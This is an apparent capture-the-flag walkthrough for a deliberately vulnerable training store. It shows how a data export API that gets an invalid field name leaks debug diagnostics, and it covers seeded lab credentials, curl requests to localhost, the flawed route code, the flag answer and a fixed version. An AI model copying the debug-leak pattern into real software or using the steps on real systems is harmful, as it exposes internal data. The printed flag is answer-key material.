

A data export feature lets you pick which profile fields to download. Send it a field name it doesn't recognize, and instead of a clean error, it dumps full system diagnostics -- including internal feature flags. That's where the flag is. You'll send a bad field name and read what comes back.

## Table of contents

## Lab setup

Start the lab:

```bash
npx create-oss-store@latest
```

Or with Docker (no Node.js required):

```bash
docker run -p 3000:3000 leogra/oss-oopssec-store
```

The app runs at `http://localhost:3000`.

## What you're targeting

The app has a profile page at `/profile` with a **Data Export** tab. It's meant to let users download their own data in JSON or CSV -- pick the fields you want (`id`, `email`, `role`...), hit "Export Data", and get a file back.



The endpoint behind it is `POST /api/user/export`. It accepts a JSON body with two parameters:

```json
{
  "format": "json",
  "fields": "id,email,role"
}
```

The `fields` value is a comma-separated list. The API checks each field against an allowlist. Valid fields? You get your data back. Invalid fields? The API throws an error -- and that error says way too much.

## Step-by-step exploitation

### 1. Log in

You need an authenticated session. Use one of the seeded accounts:

- **Email:** `alice@example.com`
- **Password:** `iloveduck`

Log in through the UI at `/login`, or grab a session cookie via curl:

```bash
curl -c cookies.txt -X POST http://localhost:3000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"alice@example.com","password":"iloveduck"}'
```

### 2. Navigate to the Data Export tab

Go to `/profile` and click the **Data Export** tab. You'll see a form with a format dropdown (JSON/CSV) and a text input pre-filled with `id,email,role`.

### 3. Send an invalid field

Replace the field list with something that doesn't exist. Type `invalid_field` in the "Fields to Export" input, keep the format as JSON, and click **Export Data**.

The API rejects the request -- but look at the error response displayed on the page. Way more than "invalid field." Scroll through the output and you'll see a full JSON dump that includes a `debug` object.

### 4. Read the debug payload

The error response looks like this:

```json
{
  "error": "Invalid field names in export request",
  "invalidFields": ["invalid_field"],
  "allowedFields": ["id", "email", "role", "addressId", "password"],
  "debug": {
    "message": "Export failed due to invalid field specification",
    "requestedFields": ["invalid_field"],
    "systemDiagnostics": {
      "timestamp": "2026-04-04T10:23:45.123Z",
      "nodeVersion": "v22.14.0",
      "environment": "development",
      "database": {
        "connected": true,
        "version": "Prisma Client v6.19.1"
      },
      "featureFlags": "OSS{1nf0_d1scl0sur3_4p1_3rr0r}"
    }
  }
}
```

The flag is in `debug.systemDiagnostics.featureFlags`.

### 5. The curl version

If you prefer the terminal:

```bash
curl -b cookies.txt -X POST http://localhost:3000/api/user/export \
  -H "Content-Type: application/json" \
  -d '{"format":"json","fields":"invalid_field"}'
```

## Capturing the flag

The flag is:

```
OSS{1nf0_d1scl0sur3_4p1_3rr0r}
```

It shows up in the `featureFlags` field inside the `systemDiagnostics` object. Any request with at least one invalid field triggers it -- the API calls `getSystemDiagnostics()` and dumps everything into the response body. Any authenticated user can do this, no special privileges.

## Why this vulnerability exists

Look at what happens in `route.ts` when the API finds invalid fields:

```typescript
if (invalidFields.length > 0) {
  const diagnostics = await getSystemDiagnostics();

  return NextResponse.json({
    error: "Invalid field names in export request",
    invalidFields: invalidFields,
    allowedFields: ALLOWED_USER_FIELDS,
    debug: {
      message: "Export failed due to invalid field specification",
      requestedFields: requestedFields,
      systemDiagnostics: diagnostics,
    },
  }, { status: 400 });
}
```

The developer added a `debug` block to help during development, and it calls `getSystemDiagnostics()`. That function queries the database, pulls Node.js version info, environment variables, and reads feature flags from the database. All of that gets shipped to the client in the error response.

Two assumptions failed here:

1. "Only valid requests will hit production." The debug payload was probably meant for local development, but it ships on every invalid-field error regardless of environment.
2. "Error responses are harmless." Dumping diagnostics in a 400 response felt like a debugging convenience. It's an information leak.

This falls under CWE-209 (error messages containing sensitive information) and CWE-200 (exposure of sensitive information to an unauthorized actor).

## How to fix it

Strip the debug data from error responses. Error messages sent to users should contain only what they need to fix their request:

```typescript
if (invalidFields.length > 0) {
  return NextResponse.json({
    error: "Invalid fields specified",
    allowedFields: ALLOWED_USER_FIELDS,
  }, { status: 400 });
}
```

No diagnostics, no system internals.

If you need debug context when errors happen, log it server-side. Write it to your logging pipeline, not to the HTTP response:

```typescript
if (invalidFields.length > 0) {
  console.error("Export validation failed", {
    userId: user.id,
    invalidFields,
    requestedFields,
  });

  return NextResponse.json(
    { error: "Invalid fields specified" },
    { status: 400 }
  );
}
```

If you absolutely need verbose errors during development, gate them behind an environment check so they never run in production:

```typescript
const response: Record<string, unknown> = {
  error: "Invalid fields specified",
};

if (process.env.NODE_ENV === "development") {
  response.debug = { requestedFields, invalidFields };
  // Still don't include system diagnostics
}
```

One more thing: `getSystemDiagnostics()` queries the `flag` table. Why does a diagnostics function need access to that? It shouldn't. Limit diagnostics to health checks -- is the DB up, what version is the app -- and leave sensitive tables alone.

## Wrapping up

Verbose error messages have caused real breaches. In 2019, First American Financial exposed 885 million records partly because their error handling leaked internal references. Debug payloads in production APIs are one of the most common findings in pentests, and attackers check for them early.